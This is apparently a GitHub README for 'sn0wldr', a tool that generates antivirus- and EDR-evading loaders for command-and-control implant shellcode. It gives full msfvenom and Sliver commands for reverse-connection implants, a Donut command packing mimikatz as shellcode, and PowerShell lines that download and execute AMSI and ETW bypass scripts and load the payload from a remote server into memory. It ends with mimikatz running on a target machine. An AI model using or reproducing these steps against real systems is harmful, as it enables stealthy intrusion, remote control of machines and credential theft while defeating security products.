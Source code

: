 # sn0wldr

## This is used to generate a AV bypassed sc loader.

up to test day, most common AVs can be bypassed: Windows defender, ATP, CS Falcon, Carbon Black, Red Canary, Cylance and McAfee.

### Install MONO when using Kali Linux / Debian Based Distributions

```
sudo apt install apt-transport-https dirmngr gnupg ca-certificates
sudo apt-key adv --keyserver hkp://keyserver.ubuntu.com:80 --recv-keys 3FA7E0328081BFF6A14DA29AA6A19B38D3D831EF
echo "deb https://download.mono-project.com/repo/debian stable-buster main" | sudo tee /etc/apt/sources.list.d/mono-official-stable.list
sudo apt update
sudo apt-get install mono-complete
```

### Install MONO when using Ubuntu (tested for 22.04)

```
sudo apt install apt-transport-https dirmngr gnupg ca-certificates
sudo apt-key adv --keyserver hkp://keyserver.ubuntu.com:80 --recv-keys 3FA7E0328081BFF6A14DA29AA6A19B38D3D831EF
echo "deb https://download.mono-project.com/repo/ubuntu stable-focal main" | sudo tee /etc/apt/sources.list.d/mono-official-stable.list
sudo apt update
sudo apt install mono-complete
```

### Currently supporting the following C2 plateform (It is now should be able to support any C2 if shellcode is provided):

- Meterpreter
- Covenent
- Sliver
- Cobalt Strike

### Feature

- Process Hollowing
- Behaviour detection bypass
- Random AES encryption
- Rewrite to use D/Invoke direct syscalls
- Add a new haloloader_template to use [SharpHalos](https://github.com/GetRektBoy724/SharpHalos), HaloGates direct syscalls methods to load shellcode

### Guide

1. Generate shellcode for supported C2 implant in raw format (this is acutally can be used to load any payload in raw shellcode format):
   
For Sliver:

Due to the latest Sliver has shellcode encoding enabled by default which somehow break the halogate loader, so need to disable it when generate the shellcode by issue `-G`. Evasion and Obfuscation can both be enabled for better EDR bypass:

```
### To Generate a Sliver implant shellcode without obfuscation:
### For latest Sliver, it has shellcode encoding enabled by default which somehow break the halogate loader, so need to disable it when generate the shellcode by issue "-G". Evasion and Obfuscation can both be enabled for better EDR bypass: 
# [server] sliver > generate -N sliver --mtls 10.0.0.145 -b 10.0.0.145 -e -G -f shellcode --save /root/Codes/sn0wldr/input/
# [*] Generating new windows/amd64 implant binary
# [!] Symbol obfuscation is disabled
# [*] Build completed in 00:01:25
# [*] Implant saved to /root/Codes/sn0wldr/input/sliver.bin
#
### Move the sliver.bin to folder input if required, then run the autogen script.
```

For Meterpreter:

```
### To Generate a Meterpreter implant shellcode without obfuscation:
# for x64
# msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.0.0.145 LPORT=8443 -f raw -o input/meterpreter.bin
# for x86
# msfvenom -p windows/meterpreter/reverse_https LHOST=10.0.0.145 LPORT=8443 -f raw -o input/meterpreter.bin
### Move the meterpreter.bin to folder input if required, then run the autogen script.
```

For CobaltStrike:

```
### To Generate a CS implant shellcode without obfuscation:
# Attacks -> Packages -> Payload Generator
# Choose Raw in Output area.
### Move the cobaltstrike.bin to folder input and rename to cobaltstrike.bin, then run the autogen script.
```

For any sharp tools, thanks to the cool tool [Donut](https://github.com/TheWover/donut/releases), we can convert any sharp EXE file into raw shellcode then used into this loader:

```
### To Generate shellcode from the EXE using donut:
┌──(root㉿average-student)-[/opt/donut_v0.9.3]
└─# ./donut -e 3 -a 3 -b 1 -f 1 -x 1 -p "coffee" -o /root/myCodes/sn0wldr/input/other.bin ./mimikatz.exe

  [ Donut shellcode generator v0.9.3
  [ Copyright (c) 2019 TheWover, Odzhan

  [ Instance type : Embedded
  [ Module file   : "./mimikatz.exe"
  [ Entropy       : Random names + Encryption
  [ File type     : EXE
  [ Parameters    : coffee
  [ Target CPU    : x86+amd64
  [ AMSI/WDLP     : none
  [ Shellcode     : "/root/myCodes/sn0wldr/input/other.bin"
                                                                                       

```

2. Move the generated shellcode bin file to `input` folder, and rename it as format: `<c2type>.bin`

3. Run the autogen script `autogen_loader.sh`, wait for couple of minutes and check the generated encrypted EXE in the output folder.

```
┌──(root💀TW-PenTestBox)-[~/myCodes/sn0wldr]
└─# ./autogen_loader.sh -h
[*] Usage: ./autogen_loader.sh -t <c2type> -a <target_os_arch> -s <syscall_type>
[*] Exg..: ./autogen_loader.sh -t sliver -a x64 -s halogate

[!] Make sure the shellcode bin file located in input folder and named as <c2type>.bin
[!] Currently c2type only support the following four:
[!] 	sliver|meterpreter|cobaltstrike|covenant
[!] Current directly syscall methods only support the following two:
[!] 	dinvoke|halogate
```

4. Since the generated executable file is Sharp Assembly, it can be chained with the tool [PowerSharpLoader](https://github.com/F4l13n5n0w/PowerSharpLoader) to load remotely into memory without touch disk, as shown in the following example:

```
IEX([Net.Webclient]::new().DownloadString("https://raw.githubusercontent.com/F4l13n5n0w/PowerSharpLoader/master/amsi3.txt"));
IEX([Net.Webclient]::new().DownloadString("https://raw.githubusercontent.com/F4l13n5n0w/PowerSharpLoader/master/etw.txt"));
IEX([Net.Webclient]::new().DownloadString("https://raw.githubusercontent.com/F4l13n5n0w/PowerSharpLoader/master/Invoke-LoadAssembly.ps1"));
Invoke-LoadAssembly -AssemblyUrl https://<your_server>/halosli64x2.exe -Command ""
```

5. The following shows the successful mimikatz execution on the target Windows 10 machine:

```
PS C:\Users\tester\Downloads\test> Invoke-LoadAssembly -AssemblyUrl "http://192.168.174.150/sn0wmimicoffee.exe" -Command ""
[mySharphalo.UsageExample]::Main($Command.Split(" "))
[+] handle 0D6C! meow executed!

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # coffee

    ( (
     ) )
  .______.
  |      |]
  \      /
   `----'

mimikatz #
```

### To Do

- Add bananameowloader for even better AV bypass

